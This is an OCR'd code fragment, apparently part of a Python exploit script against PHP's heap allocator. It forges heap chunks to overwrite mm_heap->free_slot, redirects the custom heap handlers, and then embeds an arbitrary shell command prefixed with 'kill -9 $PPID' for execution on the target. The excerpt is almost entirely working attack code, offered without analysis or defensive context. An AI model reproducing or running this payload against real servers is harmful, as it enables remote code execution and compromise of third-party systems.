 ~~~ python
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
~~~